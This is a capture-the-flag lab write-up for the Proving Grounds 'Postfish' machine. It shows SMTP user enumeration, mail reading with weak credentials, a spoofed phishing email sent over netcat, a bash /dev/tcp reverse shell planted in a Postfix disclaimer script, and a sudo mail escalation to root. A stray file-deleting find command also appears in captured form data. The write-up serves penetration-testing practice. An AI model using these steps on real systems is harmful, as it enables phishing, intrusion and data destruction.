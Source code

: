 ```yaml
---
title: "Proving grounds Practice: Potfish"
layout: post
date: 2024-05-20 02:00
categories: writeup
---
```


Proving grounds Practice - Potfish CTF writeup.

# NMAP
```text
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
25/tcp  open  smtp     Postfix smtpd
80/tcp  open  http     Apache httpd 2.4.41 ((Ubuntu))
110/tcp open  pop3     Dovecot pop3d
143/tcp open  imap     Dovecot imapd (Ubuntu)
993/tcp open  ssl/imap Dovecot imapd (Ubuntu)
995/tcp open  ssl/pop3 Dovecot pop3d
Service Info: Host:  postfish.off; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80/tcp  open  http Apache httpd 2.4.41 ((Ubuntu))
Nothing here...

Create custom wordlist based on the texts in the webpage

```sh
cewl http://postfish.off/team.html -m 5 -w team.txt
```

## 25/tcp  open  smtp Postfix smtpd

Enumerate snmp users

```sh
smtp-user-enum -U team.txt -t 192.168.228.137
######## Scan started at Sat Oct 28 07:50:55 2023 #########
192.168.228.137: Sales exists
192.168.228.137: Legal exists
######## Scan completed at Sat Oct 28 07:51:11 2023 #########
2 results.
```

### Usernames found

Sales
Legal

**Users in the website**

Claire Madison
Mike Ross
Brian Moore
Sarah Lorem

**Common email naming**

- claire.madison@postfish.off
- mike.ross@postfish.off
- brian.moore@postfish.off
- sarah.lorem@postfish.off

```shell
naveenj@hackerspace:[08:01]~/proving_grounds/Postfish$ smtp-user-enum -U usr -t postfish.off
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Usernames file ........... usr
Target count ............. 1
Username count ........... 8
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Sat Oct 28 08:01:52 2023 #########
postfish.off: claire.madison@postfish.off exists
postfish.off: sarah.lorem exists
postfish.off: brian.moore exists
postfish.off: mike.ross exists
postfish.off: claire.madison exists
postfish.off: sarah.lorem@postfish.off exists
postfish.off: mike.ross@postfish.off exists
postfish.off: brian.moore@postfish.off exists
######## Scan completed at Sat Oct 28 08:01:54 2023 #########
8 results.

8 queries in 2 seconds (4.0 queries / sec)
```

The scan shows the users exist.

Check email messages using imap protocol by using curl

```sh
curl -k 'imaps://postfish.off/INBOX;MAILINDEX=1' --user sales:sales
```

```shell
naveenj@hackerspace:[08:16]~/proving_grounds/Postfish$ curl -k 'imaps://postfish.off/INBOX;MAILINDEX=1' --user sales:sales
Return-Path: <it@postfish.off>
X-Original-To: sales@postfish.off
Delivered-To: sales@postfish.off
Received: by postfish.off (Postfix, from userid 997)
	id B277B45445; Wed, 31 Mar 2021 13:14:34 +0000 (UTC)
Received: from x (localhost [127.0.0.1])
	by postfish.off (Postfix) with SMTP id 7712145434
	for <sales@postfish.off>; Wed, 31 Mar 2021 13:11:23 +0000 (UTC)
Subject: ERP Registration Reminder
Message-Id: <20210331131139.7712145434@postfish.off>
Date: Wed, 31 Mar 2021 13:11:23 +0000 (UTC)
From: it@postfish.off

Hi Sales team,

We will be sending out password reset links in the upcoming week so that we can get you registered on the ERP system.

Regards,
IT
```

### Sending email using smtp

```shell
- Connect to port using netcat
nc -nv 192.168.209.137 25

- From address
MAIL FROM: it@postfish.off
250 2.1.0 Ok

- To address
RCPT TO: brian.moore@postfish.off
250 2.1.5 Ok

- Begin data
DATA
354 End data with <CR><LF>.<CR><LF>
Subject: Password reset process
Hi Brian,

Please follow this link to reset your password: http://192.168.45.205

regards,

-End data
.
250 2.0.0 Ok: queued as A6BCB4543F

- Exit
QUIT
221 2.0.0 Bye
```

![img](/assets/images/CTF/Proving_Grounds/Potfish/smtp.png)

Upon sending the link in the email they sent us the new password.

```shell
naveenj@hackerspace:[08:29]~/proving_grounds/Postfish$ nc -lvnp 80
listening on [any] 80 ...


connect to [192.168.45.205] from (UNKNOWN) [192.168.209.137] 53910
POST / HTTP/1.1
Host: 192.168.45.205
User-Agent: curl/7.68.0
Accept: */*
Content-Length: 207
Content-Type: application/x-www-form-urlencoded

first_name%3DBrian%26last_name%3DMoore%26email%3Dbrian.moore%postfish.off%26username%3Dbrian.moore%26password%3DEternaLSunshinE%26confifind /var/mail/ -type f ! -name sales -delete_password%3DEternaLSunshinE
```

### url decoded

```text
first_name=Brian&last_name=Moore&email=brian.moore%postfish.off&username=brian.moore&password=EternaLSunshinE&confifind/var/mail/-typef!-namesales-delete_password=EternaLSunshinE
```

### Credentials
brain.moore:EternaLSunshinE

## Privilege Escalation

Run linpeas.

```sh
╔══════════╣ My user
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#users
uid=1000(brian.moore) gid=1000(brian.moore) groups=1000(brian.moore),8(mail),997(filter)

╔══════════╣ Searching folders owned by me containing others files on it (limit 100)

╔══════════╣ Readable files belonging to root and readable by me but not world readable
-rwxrwx--- 1 root filter 1184 Oct 28 12:42 /etc/postfix/disclaimer
```

Add reverse shell to the disclaimer script file.

```sh
#!/bin/bash

bash -i >& /dev/tcp/192.168.45.205/443 0>&1;
```

Repeat what we did for initial foothold. So whenever the system receives and sends any emails it will include the disclaimer content from a text file. And this script will be executed.

```shell
naveenj@hackerspace:[09:05]~/proving_grounds/Postfish$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.205] from (UNKNOWN) [192.168.209.137] 47838
bash: cannot set terminal process group (31813): Inappropriate ioctl for device
bash: no job control in this shell
filter@postfish:/var/spool/postfix$ sudo -l
sudo -l
Matching Defaults entries for filter on postfish:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User filter may run the following commands on postfish:
    (ALL) NOPASSWD: /usr/bin/mail *
```

### GTFO Bins Exploit

```sh
sudo mail --exec='!/bin/bash'
```

## Exploitation

```shell
filter@postfish:/var/spool/postfix$ sudo mail --exec='!/bin/sh'
sudo mail --exec='!/bin/sh'
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
```

**Root Obtained**

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).